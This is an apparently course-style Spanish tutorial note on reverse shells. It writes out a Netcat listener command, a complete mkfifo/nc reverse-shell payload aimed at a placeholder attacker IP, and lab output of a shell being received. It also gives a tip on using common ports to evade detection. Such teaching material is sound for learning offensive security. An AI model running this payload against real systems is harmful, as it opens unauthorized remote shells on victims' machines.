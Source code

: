 ```yaml
---
layout: apunte
title: "3. Reverse Shell"
---
```


Una reverse shell es una de las técnicas más populares para ganar acceso a un sistema en ciberataques. Las conexiones inician desde el sistema objetivo, lo que ayuda a reducir la detección de firewalls y otras medidas de seguridad.

-------------------
<h2>¿Cómo funcionan las reverse shells?</h2>

------------------------
<h4>Configura un Listener Netcat (nc)</h2>
Entendamos ahora cómo funcionan las reverse shells en un escenario práctico usando Netcat. Esta herramienta soporta varios sistemas operativos y permite leer y escribir a través de una red.

Como ya hemos dicho, la conexión la comienza la máquina víctima, por lo que la máquina atacante estará esperando una conexión. Usaremos Netcat para escuchar. Usaremos el comando `nc -lvnp 443`.

```shell
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
```

El comando usa las opciones:

- `-l`: Indica a Netcat que escuche (listen) o espere por una conexión.
- `-v`: Activa verbose para ver más información.
- `-n`: Previene que las conexiones usen DNS lookup por lo que lo hará a partir de la IP.
- `-p`: Indica el puerto que utilizaremos, en nuestro caso el 443.

Puedes usar cualquier puerto para establecer la conexión pero los hackers suelen usar puertos conocidos utilizados por otras aplicaciones para enmascarar las conexiones.

-------------------------
<h4>Obteniendo una Reverse Shell</h4>
Una vez que tenemos nuestro listener configurado, el objetivo debe ejecutar lo que se conoce como payload de reverse shell. Normalmente este payload abusa una vulnerabilidad o un acceso no autorizado. Hay mucha variedad de payloads, que dependerán de las herramientas y el sistema operativo que sea atacado. Podemos ver algunos ejemplos [aquí](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Analicemos un payload de ejemplo:

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <IP_ATACANTE> <PUERTO_ATACANTE> >/tmp/f`

- `rm -f /tmp/f`: Elimina cualquier archivo pipe existente en `/tmp/f`. Esto es para crear una nueva pipe ahí sin conflictos.
- `mkfifo /tmp/f`: Crea una pipe o FIFO (First In First Out) en `/tmp/f`.
- `cat /tmp/f`: Lee la información de la pipe (espera input).
- `| bash -i 2>&1`: El output de cat se pipea a la instancia de shell (`bash -i`), que permite al atacante ejecutar comandos de manera interactiva. El `2>&1` redirecciona los errores al output (stderr a stdout), asegurándose de que cualquier error se manda de vuelta al atacante.
- `| nc IP_ATACANTE PUERTO ATACANTE`: Pipea el output de la shell hacia el atacante por medio de `nc` con la IP y el puerto.
- `>/tmp/f`: Esta parte manda el output de los comandos de vuelta hacia el pipe, permitiendo comunicación bidireccional.

>[!IMPORTANT] Esto es una "named pipe", no una pipe normal. Una normal no permite comunicación bidireccional con la misma.

----------------------------
<h4>El Atacante Recibe la Shell</h4>
Una vez que el payload es ejecutado, el atacante verá una reverse shell en su Netcat, permitiéndole ejecutar comandos en el sistema remoto.

```shell
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```

